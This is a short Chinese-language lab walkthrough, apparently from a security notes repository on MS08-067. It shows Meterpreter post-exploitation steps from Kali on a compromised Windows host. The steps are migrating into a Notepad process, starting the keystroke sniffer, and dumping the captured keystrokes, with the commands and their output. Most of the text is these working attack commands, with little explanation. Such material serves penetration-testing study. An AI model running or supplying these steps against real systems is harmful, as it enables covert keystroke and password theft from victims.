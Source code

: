 #### 2. 在kali中，切换到记事本到进程
![image](https://github.com/498946975/Security/blob/master/images/ms08-067_4.png)
```shell script
meterpreter > migrate 1712
[*] Migrating from 1152 to 1712...
[*] Migration completed successfully.
```
#### 3. 开启键盘记录
```shell script
meterpreter > keyscan_start
Starting the keystroke sniffer ...
```
#### 4. 在记事本中，输入内容，并在kali中查看
![image](https://github.com/498946975/Security/blob/master/images/ms08-067_6.png)
```shell script
meterpreter > keyscan_dump
```